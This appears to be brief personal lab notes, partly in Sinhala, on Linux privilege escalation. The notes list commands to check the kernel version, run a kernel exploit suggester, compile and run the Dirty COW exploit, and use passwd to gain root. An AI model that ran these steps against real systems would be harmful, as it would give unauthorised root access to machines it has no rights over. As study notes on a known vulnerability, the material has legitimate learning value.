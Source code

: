 
- Kernel is a computer program that translate input /output commands to instructions for hardware.

check the kernel version to check if the machine vulnerable.
#### 💻 uname -a

Run linux-exploit-suggester for check kernel vulnerabilities
#### 💻 ./linux-exploit-suggester.sh

මෙහිදී dirtycow  vulnerability එක exploit  කරයි.
exploitation  එක "C" language එකෙන් තියෙන නිසා compile  කරගත යුතුයි.
#### gcc -pthread c0w.c -o cow

compile කරගත්ත file එක  cow ලෙස save වී ඇත.
#### ./cow

![[Pasted image 20230529214248.png]]  

#### passwd

👆 for elevated the privilege's 